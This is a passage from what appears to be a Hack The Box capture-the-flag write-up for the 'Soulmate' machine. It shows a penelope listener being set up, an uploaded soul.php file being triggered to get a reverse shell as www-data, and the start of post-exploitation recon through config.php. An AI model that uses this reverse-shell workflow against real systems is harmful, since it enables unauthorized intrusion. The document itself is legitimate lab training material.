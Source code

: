![Soulmate Website CrushFTP ben upload](/assets/img/soulmate-htb-release-area-machine/soulmate-htb-release-area-machine_website-crushftp-ben-upload.png)

Setup our listener.

```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.16.147.139 • 172.17.0.1 • 10.10.16.17
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

From the upload path, we can see that it was `/webProd/soul.php` which means it only the main website `soulmate.htb`. <br>
&rarr; Let's check it out `http://soulmate.htb/soul.php`.

![Soulmate Website Reverse Shell](/assets/img/soulmate-htb-release-area-machine/soulmate-htb-release-area-machine_website-reverse-shell.png)

```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.16.147.139 • 172.17.0.1 • 10.10.16.17
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from soulmate~10.129.172.38-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/soulmate~10.129.172.38-Linux-x86_64/2025_09_08-06_08_05-393.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@soulmate:~/soulmate.htb/public$
```

There we go, got into our shell as `www-data`. But our goal is `ben` so we can escalated more to `root`. <br>
&rarr; Let's recon around to see if we can find any usefull informations.

```bash
www-data@soulmate:~/soulmate.htb/config$ cat config.php
<?php
class Database {
    private $db_file = '../data/soulmate.db';
    private $pdo;

    public function __construct() {
        $this->connect();
        $this->createTables();
    }

    private function connect() {
```